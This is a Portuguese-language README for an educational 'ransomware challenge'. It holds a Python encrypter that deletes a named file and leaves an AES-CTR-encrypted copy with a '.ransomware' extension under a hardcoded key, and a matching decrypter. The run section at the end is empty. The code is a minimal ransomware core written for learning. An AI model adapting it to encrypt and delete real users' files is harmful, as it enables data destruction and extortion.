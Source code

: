 # Desafio de Ransomware com Python

## Ferramentas Utilizadas
- **Python 3**
- **Biblioteca pyaes** (para AES simétrico)
- **Kali Linux** (ou qualquer distribuição Linux)

## 🛠 Instalação
Antes de executar o código, instale a biblioteca necessária:
```bash
pip3 install pyaes
```

## Encriptando um Arquivo
### Código `encrypter.py`
```python
import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "Desafio.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomware"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()
```

## Decriptando um Arquivo
### Código `decrypter.py`
```python
import os
import pyaes

## abrir o arquivo criptografado
file_name = "Desafio.txt.ransomware"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "Desafio.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
```

## Executando o Projeto


```

---

